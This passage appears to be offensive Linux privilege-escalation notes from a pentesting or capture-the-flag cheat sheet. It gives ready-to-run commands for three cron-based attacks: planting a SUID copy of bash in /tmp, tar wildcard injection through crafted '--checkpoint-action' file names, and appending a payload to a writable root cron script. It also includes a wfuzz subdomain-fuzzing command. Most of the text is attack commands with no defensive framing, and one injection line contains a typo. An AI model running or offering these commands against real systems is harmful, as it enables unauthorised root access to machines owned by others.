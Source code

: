> wait the crontab to execute our file

we can ls the /tmp where the copy of the bash is located, when the suid bit is set, we are good to go
```bash
/tmp/bash -p
```

### Cron Wildcards
```bash
cat /etc/crontab
```

Lets say there is a file running in crontab, doing tar backup in a directory with (*) = that means all files inside that directory
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh
chmod +s runme.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=sh\runme.sh
# wait crontab to execute
/tmp/bash -p
```


### Cron File Overwrites

If we have privileges to write a file thats running by root in crontab, we just echo something malicious and wait
```bash
cat /etc/crontab

echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /file/overwrite.sh
# wait crontab
/tmp/bash -p

```




## tips

> If you are not finding directories, perhaps u should look for subdomains

```bash
wfuzz -c -f sub-fighter -w <wordlist> -u <url> -H "Host: FUZZ.target.com" --hw 290 (exclude 290 errors)
```


crontab backing up a file with wildcard (*)
again:
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > file.sh
chmod +x file.sh
```
